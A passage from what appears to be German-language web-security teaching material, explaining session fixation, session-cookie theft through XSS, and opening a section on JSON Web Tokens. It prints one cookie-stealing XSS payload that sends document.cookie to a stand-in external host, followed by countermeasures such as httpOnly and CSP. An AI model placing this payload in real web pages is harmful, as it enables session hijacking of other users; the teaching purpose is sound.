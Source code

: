 Letzteres passiert, wenn die Webapplikation beim ersten Zugriff eines
Browsers eine Session-Id vergibt und diese während des Logins nicht neu
setzt. Im einfachsten Fall würde ein Angreifer kurz Zugriff auf den
Browser des Opfers erhalten (z.B. durch einen nicht gesperrten PC
innerhalb eines Büros), die Zielwebseite besuchen und den Wert des
Session Cookies aufzeichnen. Wenn sich nun (Stunden später) das Opfer
einloggt, kennt der Angreifer bereits den Wert des Session-Cookies und
kann auf diese Weise die Session übernehmen.

Alternativ: unter der Annahme, dass die Webseite zusätzlich eine
Operation besitzt bei der das Session-Cookie mittels HTTP GET Parameter
übergeben wird. In dem Fall kann der Angreifer einen Social Engineering
Angriff durchführen. Er verschickt Emails mit Links auf die betreffende
Operation mit zufällig generierten Session-Ids. Wenn ein Opfer nun auf
diese Operation zugreift, erkennt der Webserver, dass das Opfer nicht
eingeloggt ist und leitet das Opfer zum Login-Dialog. Das Opfer logt
sich ein, der Webserver übernimmt die Session-Id. Der Angreifer muss nur
periodisch testen, ob mit einer der versendeten Session-Ids ein Login
möglich ist.

### Session-Extraktion mittels XSS-Lücke

Mittels Javascript kann auf Session-Cookies zugegriffen werden. Falls
die Webseite eine (der häufigen) XSS-Lücken[3]) besitzt kann ein
Angreifer nun Javascript-Code auf der Webseite platzieren, warten bis
ein anderer Benutzer darauf zugreift und mittels des Javascript-Codes
die Session-Id auf einen externen Server übermitteln. Dieser
Angriffsvektor macht vor allem Spaß, wenn eine Nachrichtenfunktion
innerhalb einer Applikation verwundbar ist, da man dadurch einzelne
Benutzer direkt anvisieren kann.

Beispiel für ein einfaches Javascript-Fragment welches ein Redirect auf
einen externen Server (xyz.com) durchführt und als GET-Parameter die
aktuellen Cookies übergibt:

    <script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
    </script>

Folgende Gegenmaßnahmen sollten implementiert werden:

-   keine XSS-Lücke in der Webseite implementieren…

-   durch Verwendung des httpOnly-Cookie Flags kann dem Webbrowser
    mitgeteilt werden, dass der Zugriff mittels Javascript auf das
    Session Cookie nicht erlaubt ist.

-   CSP bietet Möglichkeiten XSS-Angriffe einzuschränken.

## JSON Web Tokens

JSON Web Tokens (JWT) sind standardisierte (RFC 7519) Tokens die als
HTTP Parameter, HTTP Session Cookies oder mittels eines HTTP Headers
übertragen werden können. Ein JSON Web-Token besteht aus drei Bereichen:

-   Header: dieser Bereich speichert vor allem den verwendeten
    Algorithmus zur Erstellung des Integrity Checks.
